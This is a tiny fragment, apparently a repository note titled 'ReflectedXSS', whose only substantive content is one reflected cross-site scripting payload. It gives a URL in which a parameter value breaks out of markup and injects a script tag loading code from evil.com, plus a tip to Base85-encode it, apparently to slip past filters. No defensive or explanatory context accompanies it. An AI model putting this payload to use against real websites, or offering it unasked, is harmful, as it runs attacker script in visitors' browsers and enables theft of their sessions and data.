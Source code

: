 # ReflectedXSS

https://www.example.com/vulnerable_page?vulnerable_param="><script src=https://evil.com/a.js> (use Base85 after equal)


    
    
